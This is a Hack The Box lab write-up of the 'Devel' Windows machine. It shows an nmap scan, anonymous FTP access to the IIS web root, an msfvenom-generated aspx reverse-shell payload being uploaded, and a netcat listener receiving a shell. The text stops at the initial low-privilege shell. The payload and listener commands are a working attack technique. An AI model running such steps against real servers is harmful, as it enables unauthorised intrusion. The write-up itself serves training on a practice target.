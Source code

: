```yaml
---
layout: post
title: Devel(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.5
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.5
  
<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-18 15:47 EST
<br>Nmap scan report for 10.10.10.5
<br>Host is up (0.22s latency).
<br>Not shown: 998 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">21/tcp</font> open  ftp     Microsoft ftpd
<br>| ftp-anon: <font color="53E100">Anonymous FTP login allowed</font> (FTP code 230)
<br>| 03-18-17  01:06AM                  aspnet_client
<br>| 03-17-17  04:37PM                  689 iisstart.htm
<br>|_03-17-17  04:37PM               184946 welcome.png
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Microsoft IIS httpd 7.5</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>|_http-server-header: <font color="53E100">Microsoft-IIS/7.5</font>
<br>|_http-title: IIS7
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Embedded Standard 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 21/tcp)
<br>HOP RTT       ADDRESS
<br>1   283.76 ms 10.10.14.1
<br>2   283.90 ms 10.10.10.5

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 55.06 seconds</p>
</div>
</font>

Anonymous login in FTP is allowed, which means we can loggin to the FTP server with {_**anonymous**_} as a username and password.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># ftp 10.10.10.5
<br>Connected to 10.10.10.5.
<br>220 Microsoft FTP Service
<br>Name (10.10.10.5:root): anonymous
<br>331 Anonymous access allowed, send identity (e-mail name) as password.
<br>Password:
<br>230 User logged in.
<br>Remote system type is Windows_NT.
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                      <font color="53E100">aspnet_client</font>
<br>03-17-17  04:37PM                  689 <font color="53E100">iisstart.htm</font>
<br>03-17-17  04:37PM               184946 <font color="53E100">welcome.png</font>
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p> 
</div>
</font>
Looks like we got the access to the Web-Directory of the server using FTP, So now we will generate our payload using _**msfvenom**_ , As the target server is using IIS 7 so we will need to generate the payload with the extension of (_**.aspx**_).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p windows/shell_reverse_tcp LHOST=10.10.*.* LPORT=4455 -b "\x00" -f aspx > teck.aspx
<br>No platform was selected, choosing Msf::Module::Platform::Windows from the payload
<br>No Arch selected, selecting Arch: x86 from the payload
<br>Found 10 compatible encoders
<br>Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
<br>x86/shikata_ga_nai succeeded with size 351 (iteration=0)
<br>x86/shikata_ga_nai chosen with final size 351
<br>Payload size: 351 bytes
<br>Final size of aspx file: 2870 bytes
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
Now upload our generated payload into the FTPServer
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="BB69EC">ftp</font>> put teck.aspx 
<br>local: teck.aspx remote: teck.aspx
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>226 Transfer complete.
<br>2907 bytes sent in 0.00 secs (12.1593 MB/s)
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                      aspnet_client
<br>03-17-17  04:37PM                  689 iisstart.htm
<br>12-22-17  07:35AM                 2907 <font color="53E100">teck.aspx</font>
<br>03-17-17  04:37PM               184946 welcome.png
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p>
</div>
</font>
The file has been uploaded, now to get the reverse shell first open the listner using **nc** and then browse the file into browser {**http://10.10.10.5/teck.aspx**}.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
</p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.*.*] from (UNKNOWN) [10.10.10.5] 49157
<br>Microsoft Windows [Version 6.1.7600]
<br>Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

<br><font color="BB69EC">c:\windows\system32\inetsrv</font>>whoami
<br>whoami
<br>iis apppool\web

<br><font color="BB69EC">c:\windows\system32\inetsrv</font>></p>
</div>
</font>
